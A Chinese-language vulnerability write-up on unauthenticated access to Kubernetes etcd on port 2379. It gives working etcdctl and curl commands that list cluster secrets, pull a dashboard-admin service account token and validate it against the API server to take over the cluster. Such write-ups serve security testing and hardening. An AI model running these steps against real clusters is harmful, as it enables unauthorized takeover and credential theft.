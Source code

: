 # 

# K8s etcd未授权访问

## 漏洞描述

etcd 是云原生架构中重要的基础组件。etcd 在微服务和 Kubernates 集群中不仅可以作为服务注册于发现，还可以作为 key-value 存储的中间件，为 k8s 集群提供底层数据存储，保存了整个集群的状态。

在 K8s 集群初始化后，etcd 默认就以 pod 的形式存在，可以执行如下命令进行查看，etcd 组件监听的端口为 2379，并且对外开放。

```
kubectl get pods -A | grep etcd
```

在 etcd 的配置文件 /etc/kubernetes/manifests/etcd.yaml 中，--client-cert-auth 默认为 true，这意味着访问 etcd 服务需要携带 cert 进行认证。

如果目标在启动 etcd 的时候没有开启证书认证选项，且 2379 端口直接对外开放的话，则存在 etcd 未授权访问漏洞。

etcdctl 下载地址：https://github.com/etcd-io/etcd

## 漏洞复现

### 查看是否存在未授权访问

访问以下链接，查看是否存在未授权访问。

```
https://your-ip:2379/version
-------------
返回如下则存在未授权访问：
{etcdserver: "3.4.3", etcdcluster: "3.4.0"} 
```

```
https://your-ip:2379/v2/keys
-------------
返回如下则存在未授权访问：
{"action":"get","node":{"dir":true,"nodes":...}}
```

### 查找 Token 接管集群

由于 Service Account 关联了一套凭证，存储在 Secret 中。因此我们可以过滤 Secret，查找具有高权限的 Secret，然后获得其 token 接管 K8s 集群。

```
#查找所有的 secret
./etcdctl --insecure-transport=false --insecure-skip-tls-verify --endpoints=https://your-ip:2379/ get / --prefix --keys-only|sort|uniq| grep secret
```

以 `/registry/secrets/kube-system/dashboard-admin-token-c7spp` 为例，查看指定 secret 保存的证书和 token：

```
#查找指定 secret 保存的证书和 token
./etcdctl --insecure-transport=false --insecure-skip-tls-verify --endpoints=https://your-ip:2379/ get /registry/secrets/kube-system/dashboard-admin-token-c7spp
```

最终的 token 为 `token?` 和 `\#kubernetes.io/service-account-token` 之间的部分。可以使用 curl 验证 token 的有效性：

```
curl --header "Authorization: Token" -X GET https://your-ip:6443/api -k
```

然后，就可以使用 token 登录 dashboard 或者远程命令管理 K8s。

